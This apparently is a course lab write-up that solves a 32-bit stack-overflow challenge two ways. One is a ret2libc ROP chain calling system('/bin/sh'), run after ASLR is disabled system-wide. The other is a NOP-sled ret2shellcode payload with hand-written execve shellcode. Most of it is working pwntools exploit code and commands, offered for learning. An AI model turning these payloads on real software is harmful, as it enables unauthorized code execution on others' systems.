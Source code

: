 # Lab-9
Lab 9 Pwn ROPchain / ret2shellcode solution

#### Check the binary protections

![image](https://github.com/user-attachments/assets/7a9f4329-53ea-4563-86cf-22f2c5ac274e)

#### Check the architechture Type

![image](https://github.com/user-attachments/assets/8b3406d1-8db0-4942-a550-373f0727282f)


### Solution 1 : ROP Way

**Turn Off ASLR**

```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

![image](https://github.com/user-attachments/assets/d9fff15f-fd0b-4a6f-95eb-927b2071d71e)


**Leak Libc Base**
![image](https://github.com/user-attachments/assets/47b611e2-a27d-4139-a2fa-ccf25b80deca)


![image](https://github.com/user-attachments/assets/e6e89228-aeed-4f36-be61-ad313cb45100)

so our libc base address we got is : `0xf7d8b000`

we will use system function in the lab9 binary present to call '/bin/sh' from libc as addresses are static wont be an issue

```py
import sys
from pwn import *

context.log_level = 'CRITICAL'
context.arch = 'i386'

binary = ELF("lab9")
libc = ELF("/usr/lib32/libc.so.6")

libc_base = 0xf7d8b000
system_addr = libc_base + libc.symbols['system']

rop = ROP(binary)


bin_sh_addr = libc_base + next(libc.search(b'/bin/sh'))
rop.call(system_addr, [bin_sh_addr])

padding = b"a" * 22
exploit = rop.chain()
payload = padding + exploit + b"bbbb"  # 4 extra b's for padding adjustment here
sys.stdout.buffer.write(payload)
```

### Run it

```bash
./lab9 $(python3 solve.py)
```

![image](https://github.com/user-attachments/assets/c8763b16-1a49-4f4b-a91e-a45ed31398c7)


## Ret2Shellcode Way Solution

![image](https://github.com/user-attachments/assets/209afafb-8d9c-41f3-b554-e150efaa470b)

Since our binary has an executable stack(RWX) (indicated by Stack: Executable and NX: NX unknown) 
a ret2shellcode approach is possible. This means we can inject shellcode directly onto the stack and then use a ROP chain to jump to it.

**Find Shellcode Address via GDB**

```bash
b unsafe

run $(python3 -c 'print("A" * 100)')

```

![image](https://github.com/user-attachments/assets/d719489d-1de9-4310-ab2a-42493415b2eb)

**Craft your Exploit**

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./lab9')
context.terminal = ['alacritty', '-e']

offset = 22
shellcode_addr = 0xffffcf50 # somewhere in the nop sled
message_addr = 0xffffd6bc

gs = """
b *main
continue
"""

shellcode = f"""
push 0x41410a21
push 0x74692064
push 0x69642049

push 4
pop eax
push 1
pop ebx
mov ecx, esp
push 10
pop edx
int 0x80

push 0x4168732f
push 0x6e69622f

xor eax, eax
mov byte [esp + 6], al

mov al, 11
mov ebx, esp
xor ecx, ecx
xor edx, edx
int 0x80
"""

payload = b'A'*offset + pack(shellcode_addr)
payload += b'\x90' * 1000
payload += asm(shellcode)

io = process([elf.path, payload])
io.interactive()
```

#### Run it

```bash
python3 solver.py
```

![image](https://github.com/user-attachments/assets/4d8cb0b9-a08e-43f6-a658-8f53d2ded955)


![image](https://github.com/user-attachments/assets/f9687a27-24e8-4230-b8a7-4aa0141db6eb)
